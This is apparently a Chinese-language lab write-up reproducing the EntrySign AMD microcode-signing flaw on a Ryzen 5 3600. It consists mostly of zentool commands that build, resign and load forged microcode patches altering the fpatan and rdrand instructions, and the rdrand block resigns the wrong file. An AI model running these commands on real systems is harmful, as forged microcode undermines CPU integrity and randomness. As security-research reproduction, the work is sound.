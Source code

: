 
---
title: '在AMD R5-3600 (Matisse)上复现EntrySign记录'
date: 2025-10-14 23:00:00
tags:
    - Security
    - CPU

categories:
  - AMD
---



Code of create template
```zsh
 cd ~/Code/CS253/EntrySign/security-research-zentool/pocs/cpus/entrysign/zentool
 ZENTOOL_XXTEA_KEY=0x2b7e151628aed2a6abf7158809cf4f3c  make template.bin 
 ./zentool edit --hdr-revlow 0x8701051 template.bin
 ./zentool resign template.bin

```

Code of attack on fpatan
```zsh
./zentool -o fpatan.bin edit --match 0=@fpatan --seq 0=7 --insn q0i0="add rax, rax, 0x1337" template.bin
./zentool resign fpatan.bin
sudo ./zentool load --cpu=2 fpatan.bin 
```
![fpatan攻击结果](images/entrysign-fpatan-crash.png)


Code of attack on rdrand
```zsh
./zentool -o rdrand.bin edit --match 0=@rdrand --seq 0=0x100002 --insn q0i0="mov.qs rax,rax,4" template.bin
./zentool resign fpatan.bin
sudo ./zentool/zentool load --cpu=4 ./zentool/rdrand.bin ;sudo rdmsr -a 0x8b ; taskset -c 4 ./rdrand_test
```
![rdrand攻击结果](images/entrysign-rdrand-crash.png)
